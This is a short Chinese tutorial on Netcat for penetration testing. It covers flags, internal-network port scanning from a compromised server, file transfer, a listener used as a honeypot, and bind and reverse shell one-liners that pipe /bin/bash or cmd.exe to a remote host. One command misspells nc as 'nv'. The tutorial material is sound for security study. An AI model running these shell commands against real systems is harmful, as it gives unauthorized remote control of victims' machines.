 # Netcat的使用

Netcat常称为nc，拥有“瑞士军刀”的美誉。它基于socket协议工作。它被设计成一个可靠的后端工具，可以读写TCP或UDP网络连接，能被其它的程序或脚本直接驱动。同时它又是一个功能丰富的网络调试和开发工具，因为它可建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，在渗透测试领域，我们通常利用它来反弹shell。

## 常用参数

```
-l：开启监听
-p：指定端口

-n：以数字形式表示ip
-w: 设置超时时间

-u：使用UDP协议传输
-t：以telnet形式应答
-e：程序重定向

-z: 不进行交互，直接显示结果
-v：显示执行命令过程
```

## 常见用法

### 端口扫描

如想单纯的端口扫描的话，利用其它工具(比如nmap)会更好。nc端口扫描最主要的用途是：当获得了一个网站的权限之后，想再渗透进该网站的内网进行渗透。nmap工具是不能扫描到内网的，这时可把nc上传到web服务器上，利用它来扫描内网主机。用法为`nc -z -v -n <ip>  <port>|<port range>`，如果探测到端口开放，就可以继续探测其banner信息，输入get即可。

### 信息传输

可以利用nc做一个简易版本的聊天工具，通过一边监听端口，一边发送消息去该端口，形成一个简易版本的C-S模型。

文字传输如下：

+ 服务端：`nc -lpv <port>`
+ 客户端：`nc -nv  <ip>  <port>`

文件传输如下：

+ 服务端：`nc -lpv <port> < <SendFile>`
+ 客户端：`nc -nv <ip> <port> > <SaveDir>`

### 反弹shell

#### 正向连接

正向连接Linux

+ 靶机：`nv -lpv <port> -t -e /bin/bash`
+ 主机：`nc -nvv <ip> <port>`

正向连接Windows

+ 靶机：`nc -lvv -p <port> -t -e cmd.exe`
+ 主机：`nc -nvv <ip> <port>`

#### 反向连接

反向连接Linux

+ 主机：`nc -lpv <port>`
+ 靶机：`nc <ip> <port> -t -e /bin/bash`

反向连接Windows

+ 主机：`nc -lpv <port>`
+ 靶机：`nc <ip> <port> -t -e cmd.exe `

### 蜜罐

作为蜜罐，一直监听8888端口，直到ctrl+c停止：

```bash
nc -L -p 8888 > log.txt # 监听8888端口，并且将日志信息写入log.txt中
```

